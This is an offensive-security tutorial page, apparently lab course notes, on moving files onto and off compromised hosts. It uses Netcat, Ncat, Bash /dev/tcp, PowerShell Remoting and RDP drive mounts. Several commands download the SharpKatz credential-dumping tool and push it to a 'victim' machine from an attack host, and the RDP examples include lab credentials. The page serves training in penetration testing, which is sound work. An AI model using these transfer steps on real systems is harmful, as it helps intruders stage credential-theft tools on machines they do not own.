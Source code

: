 # 🚘 Miscellaneous File Transfer

Here we'll see how to transfer files using [Netcat](https://en.wikipedia.org/wiki/Netcat), [Ncat](https://nmap.org/ncat/) and using RDP and PowerShell sessions.

### Netcat

Netcat is used for reading from and writing to network connections using TCP or UDP

**Transfer files ->**

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

Here we use the options for listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard\_streams#Standard\_input\_\(stdin\)) using a single greater-than `>` followed by the filename

and if the compromised machine is using Ncat we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat

```shell-session
 ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**Sending File to Compromised machine**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.

**Ncat**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

***

in scenarios where there's a firewall blocking inbound connections we can  listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework\_4.7\_x64/SharpKatz.exe) as input to Netcat.

```
#On our attack host
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```
#On target machine
nc 192.168.49.128 443 > SharpKatz.exe
```

**Ncat**

```
#On our attack host
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```
#On target machine
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

***

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

**Sending File as Input to Netcat**

<pre class="language-shell-session"><code class="lang-shell-session">#Original Netcat
<strong>sudo nc -l -p 443 -q 0 &#x3C; SharpKatz.exe
</strong><strong>
</strong>#Ncat
sudo ncat -l -p 443 --send-only &#x3C; SharpKatz.exe
</code></pre>

And then our victim connects to ncat Using /dev/tcp to Receive the File

```shell-session
#Victim
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell

If we encounter scenarios where HTTP, HTTPS, or SMB are unavailable we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

Here we will transfer a file from `DC01` to `DATABASE01` and vice versa. We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**

```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

**Create a PowerShell Remoting Session to DATABASE01**

```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**

```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP

We can transfer files using RDP by copying and pasting. We can right-click and copy a file from the Windows machine we connect to and paste it into the RDP session.

If we are connected from Linux, we can use `xfreerdp` or `rdesktop`

As an alternative to copy and paste, we can mount a local resource on the target RDP server. `rdesktop` or `xfreerdp` can be used to expose a local folder in the remote RDP session.

**Mounting a Linux Folder Using rdesktop**

```shell-session
ElFelixi0@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**

```shell-session
ElFelixi0@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
